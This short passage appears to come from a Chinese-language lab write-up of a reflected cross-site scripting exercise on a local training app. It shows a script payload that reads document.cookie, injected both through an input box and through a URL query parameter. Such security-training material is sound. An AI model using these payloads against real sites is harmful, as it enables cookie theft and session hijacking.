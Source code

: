## 觀察

可以直接從 input box 輸入也可以從 URL bar 輸入 malicious script

```html
<script>console.log(document.cookie)</script>
```

```html
localhost:8086/vulnerabilities/xss_r/?name=<script>console.log(document.cookie)</script>
```
